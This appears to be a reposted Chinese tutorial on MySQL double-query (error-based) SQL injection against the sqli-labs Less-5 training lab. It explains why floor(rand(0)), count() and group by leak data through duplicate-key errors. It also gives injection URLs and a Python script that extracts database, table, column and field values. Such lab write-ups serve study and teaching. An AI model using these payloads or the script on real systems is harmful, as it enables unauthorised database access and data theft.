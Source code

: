 ```yaml
---
title: 双查询注入
date: 2023-08-07 14:15:59
categories:
- 网络安全
tags:
- web 
description: |
    sql注入
---
```


> 偷的,暂存一下

### 0x00 前言

之前看题不认真，把sqli-labs第五关和第六关做成了盲注，题目本意是考察双查询注入的用法，所以这周赶紧学了一下双查询注入。

### 0x01 双查询

什么是双查询？其实就是一个select语句中再嵌套一个select语句，如下图  
![ ](https://mochazz.github.io/img/double_injection/image1.png)  
在查询的时候，会先执行select database()语句，然后再将该语句的执行结果传递给count()函数，从内到外依次执行。  
对于双查询注入，大家需要先了解count()、rand()、floor()这三个函数的功能以及group by语句的用法。  
![ ](https://mochazz.github.io/img/double_injection/image2.png)  
`select concat(0x3a,0x3a,(select database()),0x3a,0x3a)a;`  
`select concat(0x3a,0x3a,(select database()),0x3a,0x3a) as a;`  
其实这里的两个语句的查询结果是一样的，用concat()只是为了将之后报错的结果更好的显示出来，结合后面的group by分类。  
![ ](https://mochazz.github.io/img/double_injection/image3.png)  
group by语句  
![ ](https://mochazz.github.io/img/double_injection/image4.png)  
大家可以看到，其实数据库security下有4个表(emails、referers、uagents、users)，当我们使用了group by
table_schema语句后，就会按照数据库名来分类，每个数据库也就只显示第一个表名，如果使用group by table_name就会是如下结果  
![ ](https://mochazz.github.io/img/double_injection/image5.png)  
一些研究人员发现，使用group
by子句结合rand()函数以及像`count（*）`这样的聚合函数，在SQL查询时会出现错误，这种错误是随机产生的，这就产生了双重查询注入。使用floor()函数只是为了将查询结果分类，否则就像上图一样。  
使用如下SQL语句，发现多查询几次会爆出duplicate entry的错误，且将我们需要的信息都爆出来了。  
`select count(*),concat(0x3a,0x3a,(select
database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group
by a;`  
![ ](https://mochazz.github.io/img/double_injection/image6.png)  
注意，我们要的是报错信息中所附带的我们需要的信息，而不是正常查询的结果，因为正常查询，网页只会给我们返回”You are in”，如下图  
`http://127.0.0.1/sqlilabs/Less-5/?id=1' union select
1,count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a
from information_schema.columns group by a--+`  
![ ](https://mochazz.github.io/img/double_injection/image7.png)  
![ ](https://mochazz.github.io/img/double_injection/image8.png)  
`http://127.0.0.1/sqlilabs/Less-5/?id=1' union select
1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand()*2))a from
information_schema.columns group by a--+`  
![ ](https://mochazz.github.io/img/double_injection/image9.png)  
那么到底为什么floor()、rand(0)、count()、group
by相结合，会产生这种错误呢？当时我也上google查了好些资料，但是都没怎么详细说明。后来去问zusheng表哥，他给了我一篇以前乌云上的分析文章:[Mysql报错注入原理分析(count()、rand()、group
by)](http://wooyun.jozxing.cc/static/drops/tips-14312.html)，这篇文章写得真好，详细地分析了这个问题。  
首先，rand(0)的查询结果几乎消除了`floor(rand()*2)`函数原有的随机性，连续查询几次，我们会发现它的规律如下(01101)  
![ ](https://mochazz.github.io/img/double_injection/image10.png)  
其次，使用group
by语句和count()函数的时候，mysql数据库会先建立一个虚拟表，当查询到新的键不在虚拟表中，数据库就会将其插入表中，如果数据库中已存在该键，则找到该键对应的计数字段并加1。新建虚拟表如下  
![ ](https://mochazz.github.io/img/double_injection/image11.png)  
由于我们使用了rand(0)，在查询虚拟表之前会先执行一下rand(0)，第一次的到结果为0，发现虚拟表中没有，所以此时要插入键0，在插入时，rand(0)函数又需要执行一遍，此时的查询结果为1(根据上一张图片查询结果01101可知，第二次查询结果为1)，所以此时要插入键1，取第一条记录查询，虚拟表如下  
![ ](https://mochazz.github.io/img/double_injection/image12.png)  
可能有的人不理解，为什么在插入虚拟表的时候又要执行一次rand(0)，其实我们看到执行rand(0)函数时，返回的结果是有规律的，但是，对于数据库而言，rand(0)就是一个未知的变量，它必须确定具体值才能写入虚拟表。  
取第二条记录查询，此时执行rand(0)返回的结果为1(此时对应上面01101的第三次查询结果1)，查找虚拟表发现键1已经存在，所以直接加1，虚拟表变化如下  
![ ](https://mochazz.github.io/img/double_injection/image13.png)  
取第三条记录查询，此时执行rand(0)返回的结果为0(此时对应上面01101的第四次查询结果0)，发现虚拟表中没有键0，所以要将其写入虚拟表。同样在写入虚拟表的时候，rand(0)又执行了一遍，此时查询结果为上面01101的第五次结果1，但是键1已经存在虚拟表中，由于键只能唯一，所以此时就会报错。所以在使用floor()、rand(0)、count()、group
by时，数据表中至少要有3条记录才会报错.  
下面就和常规的注入一样，只要修改子查询语句即可(第二个select语句)，然后就可以开开心心的开始手注了。  
爆表名  
![ ](https://mochazz.github.io/img/double_injection/image14.png)  
![ ](https://mochazz.github.io/img/double_injection/image15.png)  
爆列名  
![ ](https://mochazz.github.io/img/double_injection/image16.png)  
![ ](https://mochazz.github.io/img/double_injection/image17.png)  
爆字段  
![ ](https://mochazz.github.io/img/double_injection/image18.png)  
![ ](https://mochazz.github.io/img/double_injection/image19.png)  
![ ](https://mochazz.github.io/img/double_injection/image20.png)  
最后贴个代码

```python
    import requests
    from bs4 import BeautifulSoup
    db_name = ''
    table_list = []
    column_list = []
    url = '''http://192.168.1.158/sqlilabs/Less-5/?id=1'''
    ### 获取当前数据库名 ###
    print('当前数据库名:')
    payload = '''' and 1=(select count(*) from information_schema.columns group by concat(0x3a,(select database()),0x3a,floor(rand(0)*2)))--+'''
    r = requests.get(url+payload)
    db_name = r.text.split(':')[-2]
    print('[+]' + db_name)
    ### 获取表名 ###
    print('数据库%s下的表名:' % db_name)
    for i in range(50):
        payload = '''' and 1=(select count(*) from information_schema.columns group by concat(0x3a,(select table_name from information_schema.tables where table_schema='%s' limit %d,1),0x3a,floor(rand(0)*2)))--+''' % (db_name,i)
        r = requests.get(url+payload)
        if 'group_key' not in r.text:
            break
        table_name = r.text.split(':')[-2]
        table_list.append(table_name)
        print('[+]' + table_name)
    ### 获取列名 ###
    #### 这里以users表为例 ####
    print('%s表下的列名:' % table_list[-1])
    for i in range(50):
        payload = '''' and 1=(select count(*) from information_schema.columns group by concat(0x3a,(select column_name from information_schema.columns where table_name='%s' limit %d,1),0x3a,floor(rand(0)*2)))--+''' % (table_list[-1],i)
        r = requests.get(url + payload)
        if 'group_key' not in r.text:
            break
        column_name = r.text.split(':')[-2]
        column_list.append(column_name)
        print('[+]' + column_name)
    ### 获取字段值 ###
    #### 这里以username列为例 ####
    print('%s列下的字段值:' % column_list[-2])
    for i in range(50):
        payload = '''' and 1=(select count(*) from information_schema.columns group by concat(0x3a,(select %s from %s.%s limit %d,1),0x3a,floor(rand(0)*2)))--+''' % (column_list[-2],db_name,table_list[-1],i)
        r = requests.get(url + payload)
        if 'group_key' not in r.text:
            break
        dump = r.text.split(':')[-2]
        print('[+]' + dump)
```

运行效果图  
![ ](https://mochazz.github.io/img/double_injection/image21.png)

### 0x02 总结

上面的一些东西可能会难理解一些，不过你多看几遍，再动手实践验证一遍，就很容易理解了。下一篇文章，将继续把上一次没写完的盲注讲完。  
文章参考  
[double-query-injections-demystified](http://resources.infosecinstitute.comdouble-query-injections-demystified/)
[Mysql报错注入原理分析(count()、rand()、group
by)](http://wooyun.jozxing.cc/static/drops/tips-14312.html)  
视频连接  
[https://www.youtube.com/watch?v=zaRlcPbfX4M&feature=youtu.be](https://www.youtube.com/watch?v=zaRlcPbfX4M&feature=youtu.be)

